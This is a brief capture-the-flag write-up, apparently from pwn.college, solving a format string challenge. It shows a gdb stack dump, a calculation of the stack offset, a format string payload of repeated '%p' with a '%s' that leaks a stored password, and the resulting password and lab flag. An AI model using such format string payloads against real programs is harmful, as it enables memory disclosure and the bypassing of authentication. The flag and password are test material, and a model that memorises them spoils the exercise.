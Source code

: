 The string is stored at the top of the stack

    0x7fff14aee3e0: 0x514f4246      0x554b5150      0x48415741      0x00594345
    0x7fff14aee3f0: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7fff14aee400: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7fff14aee410: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7fff14aee420: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7fff14aee430: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7fff14aee440: 0x00000000      0x00000000      0x00000000      0x00000000
    0x7fff14aee450: 0x00000000      0x00000000      0x00000000      0x00000000
    (gdb) 
    0x7fff14aee460: 0x14aee3e0      0x00007fff      0x00000000      0x00000000


    (gdb) p 0x7fff14aee3e0 - 0x7fff14aee460
    $1 = -128
    (gdb) p 128/8
    $2 = 16
    (gdb) q

The format string is 
    
    %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %s %p

The flag 

    0x72c278cfa723 (nil) 0x72c278c1b297 0xa 0x25 0x45464c4a59414449 0x4e575046594d56 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) IDAYJLFEVMYFPWN (nil)
    
    What is the secret password?
    IDAYJLFEVMYFPWN
    Correct Password!
    pwn.college{4TorjZWsFaiK2FPSJlQGgV_VBl0.ddTM0MDL5kzM1czW}

